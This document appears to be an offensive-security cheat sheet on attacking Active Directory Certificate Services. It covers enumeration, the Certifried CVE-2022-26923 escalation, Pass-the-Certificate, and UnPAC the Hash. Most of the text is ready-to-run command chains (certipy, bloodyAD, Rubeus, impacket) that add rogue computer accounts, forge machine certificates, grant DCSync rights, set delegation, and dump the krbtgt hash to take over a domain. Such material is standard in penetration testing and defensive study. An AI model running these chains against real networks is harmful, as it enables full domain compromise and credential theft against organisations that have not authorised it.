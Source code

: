 # Active Directory - Certificate Services

Active Directory Certificate Services (AD CS) is a Microsoft Windows server role that provides a public key infrastructure (PKI). It allows you to create, manage, and distribute digital certificates, which are used to secure communication and transactions across a network.

## ADCS Enumeration

* NetExec:

    ```ps1
    netexec ldap domain.lab -u username -p password -M adcs
    ```

* ldapsearch:

    ```ps1
    ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=<user>,OU=Users,DC=domain,DC=local' -w '<password>' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=domain,DC=local" dNSHostName
    ```

* certutil:

    ```ps1
    certutil.exe -config - -ping
    certutil -dump
    ```

## Certificate Enrollment

* DNS required (`CT_FLAG_SUBJECT_ALT_REQUIRE_DNS` or `CT_FLAG_SUBJECT_ALT_REQUIRE_DOMAIN_DNS`): only principals with their `dNSHostName` attribute set can enroll.
    * Active Directory Users cannot enroll in certificate templates requiring `dNSHostName`.
    * Computers will get their `dNSHostName` attribute set when you **domain-join** a computer, but the attribute is null if you simply create a computer object in AD.
    * Computers have validated write to their `dNSHostName` attribute meaning they can add a DNS name matching their computer name.

* Email required (`CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` or `CT_FLAG_SUBJECT_REQUIRE_EMAIL`): only principals with their `mail` attribute set can enroll unless the template is of schema version 1.
    * By default, users and computers do not have their `mail` attribute set, and they cannot modify this attribute themselves.
    * Users might have the `mail` attribute set, but it is rare for computers.

## Certifried CVE-2022-26923

> An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

* Find `ms-DS-MachineAccountQuota`

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'DC=lab,DC=local' --attr ms-DS-MachineAccountQuota 
  ```

* Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 add computer cve 'CVEPassword1234*'
  certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
  ```

* [ALTERNATIVE] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN

  ```ps1
  Rubeus.exe tgtdeleg
  export KRB5CCNAME=/tmp/ws02.ccache
  bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local set object 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName
  ```

* Set the `dNSHostName` attribute to match the Domain Controller hostname

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 set object 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName -v DC.lab.local
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'CN=cve,CN=Computers,DC=lab,DC=local' --attr dNSHostName
  ```

* Request a ticket

  ```ps1
  # certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
  certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
  ```

* Either use the pfx or set a RBCD on your machine account to takeover the domain

  ```ps1
  certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10

  openssl pkcs12 -in dc.pfx -out dc.pem -nodes
  bloodyAD -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 add rbcd 'CRASHDC$' 'CVE$'
  getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
  secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
  ```

## Pass-The-Certificate

> Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

* Windows

  ```ps1
  # Information about a cert file
  certutil -v -dump admin.pfx

  # From a Base64 PFX
  Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

  # Grant DCSync rights to an user
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>
  # To restore
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
  ```

* Linux

  ```ps1
  # Base64-encoded PFX certificate (string) (password can be set)
  gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
  ​
  # PEM certificate (file) + PEM private key (file)
  gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # PFX certificate (file) + password (string, optionnal)
  gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # Using Certipy
  certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
  certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
  ```

### PKINIT ERROR

When the DC does not support **PKINIT** (the pre-authentication allowing to retrieve either TGT or NT Hash using certificate). You will get an error like the following in the tool's output.

```ps1
$ certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
[...]
KDC_ERROR_CLIENT_NOT_TRUSTED (Reserved for PKINIT)
```

There is still a way to use the certificate to takeover the account.

* Open an LDAP shell using the certificate

    ```ps1
    certipy auth -pfx target.pfx -debug -username username -domain domain.local -dns-tcp -dc-ip 10.10.10.10 -ldap-shell
    ```

* Add a computer for RBCD

    ```ps1
    impacket-addcomputer -dc-ip 10.10.10.10 DOMAIN.LOCAL/User:P@ssw0rd -computer-name "NEWCOMPUTER" -computer-pass "P@ssw0rd123*"
    ```

* Set the RBCD

    ```ps1
    set_rbcd 'TARGET$' 'NEWCOMPUTER$'
    ```

* Request a ticket with impersonation

    ```ps1
    impacket-getST -spn 'cifs/target.domain.local' -impersonate 'target$' -dc-ip 10.10.10.10 'DOMAIN.LOCAL/NEWCOMPUTER$:P@ssw0rd123*'
    ```

* Use the ticket

    ```ps1
    export KRB5CCNAME=DC$.ccache
    impacket-secretsdump.py 'target$'@target.domain.local -k -no-pass -dc-ip 10.10.10.10 -just-dc-user 'krbtgt'
    ```

## UnPAC The Hash

Using the **UnPAC The Hash** method, you can retrieve the NT Hash for an User via its certificate.

* Windows

    ```ps1
    # Request a ticket using a certificate and use /getcredentials to retrieve the NT hash in the PAC.
    Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```

* Linux

    ```ps1
    # Obtain a TGT by validating a PKINIT pre-authentication
    $ gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
    # Use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```

## Common Error Messages

| Error Name | Description |
| ---------- | ----------- |
| `CERTSRV_E_TEMPLATE_DENIED` | The permissions on the certificate template do not allow the current user to enroll |
| `KDC_ERR_INCONSISTENT_KEY_PURPOSE` | Certificate cannot be used for PKINIT client authentication |
| `KDC_ERROR_CLIENT_NOT_TRUSTED` | Reserved for PKINIT. Try to authenticate to another DC |
| `KDC_ERR_PADATA_TYPE_NOSUPP` | KDC has no support for padata type. CA might be expired |

`KDC_ERR_PADATA_TYPE_NOSUPP` error still allow the attacker to use the certificate with the Pass-The-Cert. Since the DC's LDAPS service only check the SAN.

## References

* [Access controls - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/access-controls)
* [AD CS Domain Escalation - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#shell-access-to-adcs-ca-with-yubihsm-esc12)
* [ADCS Attack Paths in BloodHound — Part 2 - Jonas Bülow Knudsen - May 1, 2024](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-2-ac7f925d1547)
* [bloodyAD and CVE-2022-26923 - soka - 11 May 2022](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)
* [CA configuration - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/ca-configuration)
* [Certificate templates - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates)
* [Certificates and Pwnage and Patches, Oh My! - Will Schroeder - Nov 9, 2022](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)
* [Certified Pre-Owned - Will Schroeder - Jun 17 2021](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
* [Certified Pre-Owned - Will Schroeder and Lee Christensen - June 17, 2021](http://www.harmj0y.net/blog/activedirectory/certified-pre-owned/)
* [Certified Pre-Owned Abusing Active Directory Certificate Services - @harmj0y @tifkin_](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-Certified-Pre-Owned-Abusing-Active-Directory-Certificate-Services.pdf)
* [Certifried: Active Directory Domain Privilege Escalation (CVE-2022–26923) - Oliver Lyak](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
* [Diving Into AD CS: Exploring Some Common Error Messages - Jacques Coertze - March 7, 2025](https://sensepost.com/blog/2025/diving-into-ad-cs-exploring-some-common-error-messages/)
* [Microsoft ADCS – Abusing PKI in Active Directory Environment - Jean MARSAULT - 14/06/2021](https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/)
* [UnPAC the hash - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
* [Web endpoints - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/web-endpoints)
